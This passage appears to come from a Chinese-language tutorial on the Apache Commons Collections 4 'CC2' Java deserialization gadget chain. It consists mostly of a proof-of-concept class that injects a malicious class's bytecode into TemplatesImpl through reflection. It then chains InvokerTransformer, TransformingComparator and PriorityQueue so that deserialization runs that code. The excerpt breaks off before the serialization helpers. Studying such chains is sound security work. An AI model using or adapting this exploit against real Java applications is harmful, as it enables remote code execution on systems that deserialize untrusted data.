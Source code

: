 
### 第三个poc  demo

所以，我们还需要构造，来触发TemplatesImpl_instance的newTransformer方法，这个就是用到了第一个poc里面的**InvokerTransformer**了。

poc:

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class CC2 {
    public static void main(String[] args) throws Exception {
        byte[] evilData = serialize(cc2());
        unserialize(evilData);

    }

    static Object cc2() throws Exception{
        //构造恶意类EvilTemplatesImpl并转换(使用javassist)为字节码
        ClassPool classPool = ClassPool.getDefault();
        CtClass ctClass = classPool.getCtClass("EvilTemplatesImpl"); //这里恶意类放在同目录下所以没有写包名
        byte[] bytes = ctClass.toBytecode();
        System.out.println(bytes);

        TemplatesImpl TemplatesImpl_instance = new TemplatesImpl();

        //修改恶意类的字节码设置给_bytecodes属性
        Class<?> aClass = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
        Field bytecodes = aClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(TemplatesImpl_instance, new byte[][]{bytes});

        //设置属性_name不为空
        Field name = aClass.getDeclaredField("_name");
        name.setAccessible(true);
        System.out.println(name.get(TemplatesImpl_instance));
        name.set(TemplatesImpl_instance, "xpssss");

        //构造利用链
        InvokerTransformer transformer = new InvokerTransformer("newTransformer", null, null);
        TransformingComparator transforming_Comparator = new TransformingComparator(transformer);

        //触发漏洞
        PriorityQueue queue = new PriorityQueue(2, transforming_Comparator);
        queue.add(TemplatesImpl_instance);
        queue.add(TemplatesImpl_instance);  //这里会调用transformer.transform()

        return queue;
    }

```